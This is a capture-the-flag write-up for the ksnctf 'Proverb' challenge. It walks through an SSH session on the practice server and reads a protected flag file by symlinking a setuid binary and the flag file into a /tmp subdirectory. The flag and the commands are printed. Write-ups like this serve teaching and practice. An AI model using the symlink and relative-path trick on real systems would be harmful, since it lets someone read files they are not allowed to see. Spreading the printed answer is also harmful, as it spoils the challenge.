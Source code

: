 ```yaml
---
layout : post
title : ksnctf Proverb write-up
comments : true
---
```


This article is a write-up for [Proverb](http://ksnctf.sweetduet.info/problem/13) at ksnctf.  

Using given information, let's connect to the server `ssh -p 10022 q13@ctfq.sweetduet.info`.  

```
taishi@sirius:~
⇒  ssh -p 10022 q13@ctfq.sweetduet.info
q13@ctfq.sweetduet.info's password: 
Last login: Tue Oct 20 20:12:26 2015 from 10.0.2.2
[q13@localhost ~]$ ls -al
total 48
drwxr-xr-x   2 root root  4096 Jun  1  2012 .
drwxr-xr-x. 17 root root  4096 Oct  6  2014 ..
-rw-r--r--   1 root root    18 May 11  2012 .bash_logout
-rw-r--r--   1 root root   176 May 11  2012 .bash_profile
-rw-r--r--   1 root root   124 May 11  2012 .bashrc
-r--------  19 q13a q13a    22 Jun  1  2012 flag.txt
---s--x--x  17 q13a q13a 14439 Jun  1  2012 proverb
-r--r--r--   2 root root   755 Jun  1  2012 proverb.txt
-r--r--r--   1 root root   151 Jun  1  2012 readme.txt
[q13@localhost ~]$ cat readme.txt 
You are not allowed to connect internet and write the home directory.
If you need temporary directory, use /tmp.
Sometimes this machine will be reset.
[q13@localhost ~]$ file proverb
proverb: setuid executable, regular file, no read permission
[q13@localhost ~]$ ./proverb 
Take heed of the snake in the grass.
[q13@localhost ~]$ ./proverb
Misfortunes never come singly.
[q13@localhost ~]$ ./proverb
Spare the rod and spoil the child.
[q13@localhost ~]$ ./proverb
Nothing ventured, nothing gained.
[q13@localhost ~]$ ./proverb
Take heed of the snake in the grass.
```

Inside, there are three files: `flag.txt` (probably contains FLAG), `proverb` (executable with SUID=root), and `proverb.txt`. It seems that `proverb` randomly chooses and prints out a line of strings inside `proverb.txt`.  
Since you can't analyze `proverb` using GDB (no read access), think about using `/tmp` directory, as it was written in readme.txt.  


However, although you have a write-permission, you don't have read-permission to `/tmp` directory. Weird. Started suspicious that there might be some files inside `/tmp` that leads you to capture the flag.  


```
[q13@localhost ~]$ ls /tmp
ls: cannot open directory /tmp: Permission denied
```

Now, let's start a guessing game.  

```
[q13@localhost ~]$ cat /tmp/proverb.txt
Please make your own subdirectory.
```

Here you find `proverb.txt`, saying that you should make a subdirectory. Make sense!. Let's create a subdirectory inside /tmp, then make a symbolic link of `~/proverb` and `~/flag.txt` and rename `flag.txt` to `proverb.txt`.  

```
[q13@localhost ~]$ mkdir /tmp/my_dir
[q13@localhost ~]$ cd /tmp/my_dir
[q13@localhost my_dir]$ ln -s ~/proverb .
[q13@localhost my_dir]$ ln -s ~/flag.txt proverb.txt
[q13@localhost my_dir]$ ./proverb
FLAG_XoK9PzskYedj/T&B
```

Flag is: __FLAG_XoK9PzskYedj/T&B__


